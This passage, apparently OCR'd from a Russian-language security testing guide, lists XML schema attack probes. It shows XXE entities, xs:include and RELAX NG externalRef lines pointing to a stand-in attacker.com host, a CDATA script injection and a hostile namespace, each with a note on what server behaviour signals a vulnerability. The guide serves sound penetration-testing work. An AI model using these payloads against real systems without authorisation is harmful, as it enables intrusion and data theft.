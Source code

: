 Использование `xs:include` или `xs:import`
```
<xs:include schemaLocation="http://attacker.com/malicious.xsd"/>
```
- Если сервер загружает внешний XSD, это может быть уязвимостью.

Использование `xs:any`
```
<xs:any processContents="lax"/>
```
- Если сервер принимает произвольные элементы, это может быть уязвимостью.


#### 3.1.3. Проверка реакции на RELAX NG-инъекции
RELAX NG не поддерживает DTD, но некоторые реализации могут обрабатывать внешние сущности, если они включены.

Внедрение внешних сущностей (XXE)
```
<?xml version="1.0"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://attacker.com/payload"> ]>
<root>&xxe;</root>
```
- Если сервер отправляет запрос к `attacker.com`, это указывает на уязвимость.

Использование внешних ссылок
RELAX NG поддерживает включение внешних ресурсов с помощью элементов `<externalRef>`.
```
<externalRef href="http://attacker.com/malicious.rng"/>
```
- Если сервер загружает внешний RELAX NG-файл, это может быть уязвимостью.

#### 3.1.4. Общие уязвимости для XSD и RELAX NG

**Инъекции в значения атрибутов**
Если значения атрибутов не проверяются должным образом, злоумышленник может внедрить вредоносный код.

Внедрить специальные символы или скрипты
```
<element attribute="value"><![CDATA[<script>alert(1)</script>]]></element>
```
- Если сервер интерпретирует внедренный код, это указывает на уязвимость.

**Обработка больших файлов**
Неправильная обработка больших XML-файлов может привести к атакам типа "отказ в обслуживании" (DoS).

**Неправильная обработка пространств имен**

Использовать нестандартные пространства имен:
```
<ns:element xmlns:ns="http://attacker.com/malicious">
    <ns:child>data</ns:child>
</ns:element>
```


